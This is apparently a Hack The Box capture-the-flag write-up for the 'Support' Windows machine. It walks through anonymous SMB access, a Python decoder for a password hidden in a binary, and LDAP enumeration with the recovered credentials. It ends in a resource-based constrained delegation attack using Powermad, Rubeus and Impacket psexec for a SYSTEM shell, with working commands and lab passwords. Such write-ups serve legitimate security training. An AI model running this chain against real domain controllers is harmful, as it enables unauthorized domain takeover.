




# Hack The Box - Support



Support is an Easy Windows machine that starts with anonymous SMB access, leaks LDAP credentials from a binary, and ends with Domain Controller compromise through BloodHound and RBCD. The path is: enumerate the share, reverse the tool, recover LDAP creds, find the `support` user password, and abuse a `GenericAll` edge for SYSTEM access.

## Reconnaissance

I started with network scanning to identify exposed services on the host. The machine exposed common Active Directory ports like DNS, Kerberos, LDAP, SMB, and WinRM-related services, and the domain was `support.htb` with the DC hostname `dc.support.htb`.

```bash
rustscan --accessible -a 10.129.129.84 -r 1-65535 --ulimit 65535
nmap -A -vvv -p 53,88,135,139,389,445,464,593,636,3268,3269 -oN support.nmap 10.129.129.84
dig +nocmd @10.129.129.84 support.htb any +multiline +short +answer
```

The scan showed a typical Windows Domain Controller with SMB signing required and LDAP available over both plain and global catalog ports.

## SMB Share

Anonymous SMB access was allowed, and the `support-tools` share was the interesting one. I connected to it and downloaded the files, including `UserInfo.exe`, which turned out to be the key to initial access.

```bash
smbclient -N -L //10.129.127.134
smbclient -N //10.129.127.134/support-tools
get UserInfo.exe.zip
unzip UserInfo.exe.zip
```

## Binary Analysis

I decompiled `UserInfo.exe` with dnSpy and found that it searched LDAP for users. The binary also contained an encoded LDAP bind password, which could be recovered either by reverse engineering, emulation, or network analysis.





This part of the code give us information for decoding the password : 



A small Python decoder recovered the password:

```python
#!/usr/bin/env python3

import base64

def decrypt_password(enc_password, key):
    key_bytes = key.encode('utf-8')
    enc_bytes = base64.b64decode(enc_password)
    dec_bytes = bytearray(enc_bytes)

    for i in range(len(dec_bytes)):
        dec_bytes[i] = dec_bytes[i] ^ key_bytes[i % len(key_bytes)] ^ 223

    return dec_bytes.decode('utf-8')

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = "armando"

decrypted_password = decrypt_password(enc_password, key)
print("Decrypted Password:", decrypted_password)
```

The recovered LDAP password was:

```text
nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

## LDAP Enumeration

With the LDAP bind credentials, I enumerated users and domains.

```bash
ldapsearch -x -H ldap://dc.support.htb -D "SUPPORT\ldap" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "CN=Users,DC=SUPPORT,DC=HTB"
ldapdomaindump -u 'support\ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' dc.support.htb
```

That revealed a user named `support`, and the `info` field contained a password-like string. Using that password gave me WinRM access as `support`.

```bash
evil-winrm -i dc.support.htb -u support -p 'Iron**Watchful'
```

## BloodHound

Once on the machine, I uploaded SharpHound and collected domain data.

```powershell
upload /home/kali/Downloads/Tools/SharpHound/SharpHound.exe
.\SharpHound.exe
```

After importing the resulting ZIP into BloodHound, I found that the `Shared Support Accounts` group, which `support` belongs to, has `GenericAll` over the Domain Controller. That meant I could perform an RBCD-style attack to obtain SYSTEM on the DC.

## RBCD Attack

I used the standard toolchain for the attack: Impacket, Powermad, and Rubeus. The general flow was to create a fake computer object, set delegation rights on the DC, and then impersonate `Administrator` to the CIFS service on `dc.support.htb`.
### Create Computer

```powershell
Import-Module ./powermad.ps1
Set-Variable -Name "ROLEX007" -Value "AMIHACKER"
Set-Variable -Name "victimcomputer" -Value "DC"

New-MachineAccount -MachineAccount (Get-Variable -Name "ROLEX007").Value -Password $(ConvertTo-SecureString 'secretpassword' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "victimcomputer").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "ROLEX007").Value + '$')
Get-ADComputer (Get-Variable -Name "victimcomputer").Value -Properties PrincipalsAllowedToDelegateToAccount
```

### Rubeus S4U

```powershell
./Rubeus.exe s4u /user:AMIHACKER$ /rc4:DC265511A1D1A7A3CE6F6D2A3FB6BBE1 /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt
```

That produced a service ticket which could be converted and used to access the DC.

### Convert Ticket

```bash
base64 -d ticket.kibri.b64 > ticket.kibri
./ticketConverter.py ticket.kirbi admin.ccache
export KRB5CCNAME=admin.ccache
```

## SYSTEM Access

With the converted ticket, I used Impacket `psexec` to open a SYSTEM shell on the Domain Controller.

```bash
python3 psexec.py support.htb/administrator@dc.support.htb -no-pass -k
```

That gave a shell as:

```text
NT Authority\System
```

## Attack Path

- **Scan the host** — identify the DC and LDAP/SMB services.
- **Enumerate SMB** — discover anonymous access and the `support-tools` share.
- **Reverse the binary** — extract LDAP bind credentials from `UserInfo.exe`. 
- **Query LDAP** — identify the `support` user and recover their password.
- **Get WinRM access** — log in as `support`.
- **Run BloodHound** — find `GenericAll` over the DC through `Shared Support Accounts`.
- **Perform RBCD** — create a fake computer, impersonate `Administrator`.
- **Get SYSTEM** — use the Kerberos ticket with `psexec`.
